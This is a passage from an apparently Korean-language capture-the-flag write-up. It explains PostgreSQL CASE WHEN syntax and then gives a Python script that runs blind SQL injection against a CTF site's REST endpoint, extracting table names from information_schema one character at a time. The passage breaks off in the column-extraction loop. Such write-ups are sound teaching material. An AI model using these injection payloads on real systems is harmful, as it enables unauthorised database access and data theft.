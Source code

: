 `postgre SQL`에서는 위와 같은 문법이 존재한다.

간단하게 설명하면, where 절에서 사용하는 조건문을 select문에서 사용할 수 있는 문법이라고 생각하면된다.

해당 문법을 이용해서 Blind SQLi를 쉽게 수행할 수 있다.

### ○ exploit

```python
from requests import *
import string

uppercase_letters = string.ascii_uppercase
lowercase_letters = string.ascii_lowercase
special_characters = "!@#$%^&*"
numbers = "0123456789"

combined_string = ',{' + '}' + lowercase_letters + uppercase_letters + special_characters + numbers + ' '
#print(combined_string)

url = 'http://libreria.sstf.site/rest.php?cmd=requestbook&isbn='
last_idx = 363

print('[+] start exploit!')

count = 0
table = ''
check_false = 0

# Get table
for i in range(1, 100):
  if check_false:
    print()
    print('[-] finish')
    break 
  for j in list(combined_string):
    payload = f'''123' union select case when (substring(STRING_AGG(table_name, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from information_schema.tables where current_database() = 'books'-- '''
    res = get(url=url+payload)
    count += 1
    #print(f'..ing..{count}')
    if res.text.find('1111111111111') != -1:
      count = 0
      #print(j)
      table += j
      print(table)
      break
    elif j == ' ':
      check_false = 1
      break

count = 0    
column = ''
check_false = 0

# Get column
for i in range(5, 100):
  if check_false:
    print()
    print('[-] finish')
    break 
  for j in list(combined_string):
```